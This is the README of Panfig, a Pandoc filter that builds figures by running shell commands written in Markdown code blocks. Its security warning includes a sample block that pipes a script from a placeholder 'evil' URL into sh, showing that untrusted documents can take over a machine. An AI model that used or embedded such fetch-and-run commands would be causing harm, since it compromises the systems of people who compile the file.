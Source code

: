 Pandoc Figure Framework
=======================

This library lets you write self-contained Pandoc/Markdown files containing figures.

Without Panfig, if you want figures, you have to save the image files, and the scripts that generate them, alongside the document. You'd probably even have a Makefile or something to ensure that all the figures were up to date. What a hassle!

With Panfig, the document stands alone. It describes how to generate the images, and they're generated when the document is compiled to HTML (or whatever).

For example, this Markdown code:

    Here is a very simple FSM: the "on-off automaton."

    ~~~~~~~~ {.panfig shell="dot -Tpng -o %s"}
      digraph G {
        on [style=filled];
        on -> off;
        off -> on;
      }
    ~~~~~~~~

generates HTML that looks like this:

> Here is a very simple FSM: the "on-off automaton."
>
> ![](on-off.png)



Security: for heaven's sake, be careful.
-------------------------------------

I am putting this up near the top because you should care about it.
**Panfig executes arbitrary code contained in the document being compiled. If you invoked Pandoc (+Panfig) on the following document, it would own your computer.**


    ~~~~~~~~ { .panfig shell="curl http://example.com/evil_exploit.sh | sh"}
    ~~~~~~~~


How do I use it?
----------------

1. **Install.** First things, of course, first: `pip install panfig`.

2. **Write Markdown.** In your Markdown file, where you want a figure, write a code block that describes how to generate the desired figure. For example:

        ~~~~~~~~ { .panfig shell="dot -Tpng -o %s" }
          digraph G {
            on -> off;
            off -> on;
          }
        ~~~~~~~~

    This uses Pandoc's [fenced code block](http://pandoc.org/README.html#fenced-code-blocks) syntax to give the block the `.panfig` class (to flag it for processing by Panfig), and a `shell` attribute specifying the command that will generate the figure. (It's a `printf`-style format string, so `%s` is replaced by the `sh`-escaped path to the image file that should be created.) The shell command is run, with the contents of the code block passed to the subprocess's standard input. It's that simple!

3. **Compile the document.** Invoke `pandoc` to compile the document as you normally would, but add the option `--filter panfig`. (If the `panfig` executable isn't on your default path -- for example, if you use Virtualenv -- you may need to pass the full path to the `panfig` executable, e.g. `~/.virtualenv/3.4/bin/panfig`.)


### Bells and Whistles

#### Aliases

An alias specifies a set of attributes that Panfig should pretend a block has. For example, instead of writing `shell="dot -Tpng -o %s"` for all your graphs, you could instead define an alias, like so:

        ~~~~~~~~ { .panfig-aliases }
          {"dot": {"shell": "dot -Tpng -o %s"}}
        ~~~~~~~~

        ~~~~~~~~ { .panfig alias=dot }
          digraph G { on -> off; off -> on; }
        ~~~~~~~~

This is exactly, 100% identical to

        ~~~~~~~~ { .panfig shell="dot -Tpng -o %s" }
          digraph G { on -> off; off -> on; }
        ~~~~~~~~

The body of a `.panfig-aliases` block should be a JSON object of the form `{"alias-name": {"attr": "value", ...}, ...}` -- that is, mapping alias names to objects, which in turn specify the attributes you're using the alias as a shorthand for.

Panfig comes with several aliases predefined:

- `dot`: uses `dot` to generate a PNG, e.g.

        ~~~~~~~~ { .panfig alias=dot }
          digraph G { on -> off; off -> on; }
        ~~~~~~~~

- `mathematica` uses Mathematica to generate a PNG, e.g.

        ~~~~~~~~ { .panfig alias=mathematica }
          Plot[Sin[x], {x, 0, 2 Pi}] (* last result is `Export`ed *)
        ~~~~~~~~

- `matplotlib` uses Matplotlib to generate a PNG, e.g.

        ~~~~~~~~ { .panfig alias=matplotlib }
          import numpy as np
          xs = np.linspace(0, 2*np.pi, 100)
          plt.plot(xs, np.sin(xs)) # matplotlib.pyplot is already imported as plt
          # plt.savefig() is called at the end to generate the image
        ~~~~~~~~


#### Text Processing

Often, to avoid code duplication, you'll want to massage the code block's contents in some way. Panfig supports some special attributes that will perform common massaging operations:

- `prologue="..."`: prepends the attribute-value to the block's contents (separated by a newline)
- `epilogue="..."`: appends the attribute-value to the block's contents (separated by a newline)
- `dedent=true`: removes an equal amount of whitespace (as much as possible, given that constraint) from the beginning of each line

This is all stuff that you *could* do just by constructing a fancy pipeline in your `shell` command, but... what a pain.

For example:


        ~~~~~~~~ { .panfig-aliases }
          {"fsm": {"shell": "dot -Tpng -o %s",
                   "prologue": "digraph G { _start [shape=\"none\", label=\"\"];",
                   "epilogue": "}"}}
        ~~~~~~~~

        ~~~~~~~~ {.panfig alias=fsm}
          _start -> off;
          on [shape="doublecircle"];
          on -> off;
          off -> on;
        ~~~~~~~~
